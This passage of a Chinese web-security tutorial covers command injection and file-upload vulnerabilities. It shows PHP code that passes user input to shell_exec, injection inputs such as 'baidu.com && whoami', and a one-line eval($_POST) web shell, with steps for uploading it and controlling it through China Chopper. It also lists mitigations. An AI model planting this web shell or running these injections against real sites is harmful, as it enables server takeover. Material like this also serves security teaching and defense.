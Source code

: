 **防范**

```text
1.复杂密码与密码加密
2.人机识别验证
3.接口请求次数限制
```

## 命令执行

应用有时需要调用一些执行系统命令的函数。如PHP中的 system,exec,shell_exec 等。

如下后台代码，将前端输入框的值作为参数传入，执行 ping 命令，并将执行结果打印。

```text
$cmd = shell_exec( 'ping  -c 4 ' . $target );
$html .= "<pre>{$cmd}</pre>";
```

此时可构造恶意输入值如下：

```text
baidu.com && whoami
baidu.com && cd ../ && pwd
baidu.com && cd ../ && ls
```

实际破坏中原不仅仅是 'ls' 这种无害的命令。

**防范**

```text
1.对Shell命令中的特殊符号进行替换，如'&'，'|'，';','||'等。
2.对于确定的输入，比如IP，明确限制输入值格式。
3.服务器权限设置。
```



## 文件上传

漏洞利用的三个**重要条件**：

```text
1.可以上传木马文件。
2.文件能被执行。
3.上传文件的路径可知。
```

**利用步骤**

- A网站允许上传任意文件，则构建如下**一句话脚本**，保存为 hack.php 上传到A网站。注意 apple 字符串，该字符串可任意设置。

```php
<?php
  eval($_POST['apple']);
?>
```

- 假设已知A网站上传的文件都在/uploads/目录下，可通过[http://A.com/uploads/hack.php](http://a.com/uploads/hack.php)访问该文件。
- 打开 **中国菜刀** 软件，该软件被安全软件报病毒，谨慎使用。
- 右键添加SHELL，填写 [http://A.com/uploads/hack.php](http://a.com/uploads/hack.php) 及 apple 字符串(与hack.php保持一致)，点击添加。如下图：
